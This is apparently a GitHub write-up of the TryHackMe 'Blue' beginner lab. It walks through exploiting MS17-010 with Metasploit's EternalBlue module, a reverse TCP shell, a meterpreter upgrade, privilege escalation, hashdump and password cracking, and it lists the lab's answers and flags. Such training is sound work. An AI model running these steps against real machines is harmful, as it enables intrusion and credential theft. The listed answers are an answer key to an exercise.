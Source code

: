 # [Blue](https://tryhackme.com/room/blue)

![Blue](./images/Blue.png)

## Task 1 - Recon

Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused. 

![task1-blue](./images/task1-blue.png)

Art by one of our members, Varg - [THM Profile](https://tryhackme.com/p/Varg) - [Instagram](https://www.instagram.com/varghalladesign/) - [Blue Merch](https://www.redbubble.com/shop/ap/53637482) - [Twitter](https://twitter.com/Vargnaar)

Link to Ice, the sequel to Blue: [Link](https://tryhackme.com/room/ice)

You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)

-----------------------------------------


The virtual machine used in this room (Blue) can be downloaded for offline usage from https://darkstar7471.com/resources.html


Enjoy the room! For future rooms and write-ups, follow [@darkstar7471](https://twitter.com/darkstar7471) on Twitter.

### Answer the questions

* Scan the machine. (If you are unsure how to tackle this, I recommend checking out the [Nmap](https://tryhackme.com/room/furthernmap) room)

	![task1-nmap](./images/task1-nmap.png)

* How many ports are open with a port number under 1000?

	`3`

* What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

	`ms17-010`

## Task 2 - Gain Access

Exploit the machine and gain a foothold.

### Answer the questions

* Start [Metasploit](https://tryhackme.com/module/metasploit)

	![task2-msfconsole](./images/task2-msfconsole.png)

* Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

	`exploit/windows/smb/ms17_010_eternalblue`

	![task2-ms17](./images/task2-ms17.png)

* Show options and set the one required value. What is the name of this value? (All caps for submission)

	`RHOSTS`

	![task2-options](./images/task2-options.png)

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

`set payload windows/x64/shell/reverse_tcp`

* With that done, run the exploit!

	![task2-exploit](./images/task2-exploit.png)

* Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

	![task2-background](./images/task2-background.png)

## Task 3 - Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

### Answer the questions

* If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

	`post/multi/manage/shell_to_meterpreter`

	![task3-meterpreter](./images/task3-meterpreter.png)

* Select this (use MODULE_PATH). Show options, what option are we required to change?

	`SESSION`

	![task3-options](./images/task3-options.png)

* Set the required option, you may need to list all of the sessions to find your target here. 

	![task3-setup](./images/task3-setup.png)

* Run! If this doesn't work, try completing the exploit from the previous task once more.

	![task3-upgraqde](./images/task3-upgraqde.png)

* Once the meterpreter shell conversion completes, select that session for use.

	![task3-interact](./images/task3-interact.png)

* Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

	![task3-whoami](./images/task3-whoami.png)

* List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

	![task3-ps](./images/task3-ps.png)

* Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

	![task3-migrate](./images/task3-migrate.png)

## Task 4 - Cracking

Dump the non-default user's password and crack it!

### Answer the questions

* Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

	`Jon`

	![task4-hashdump](./images/task4-hashdump.png)

* Copy this password hash to a file and research how to crack it. What is the cracked password?

	`alqfna22`

	![task5-john](./images/task5-john.png)

## Task 5 - Find flags!

Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!

Completed Blue? Check out Ice: [Link](https://tryhackme.com/room/ice)

You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)

### Answer the questions

* Flag1? This flag can be found at the system root. 

	`flag{access_the_machine}`

	![task6-flag1](./images/task6-flag1.png)

* Flag2? This flag can be found at the location where passwords are stored within Windows.
	
	Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 

	`flag{sam_database_elevated_access}`

	![task6-flag2](./images/task6-flag2.png)

* Flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

	`flag{admin_documents_can_be_valuable}`
	
	![task6-flag3](./images/task6-flag3.png)

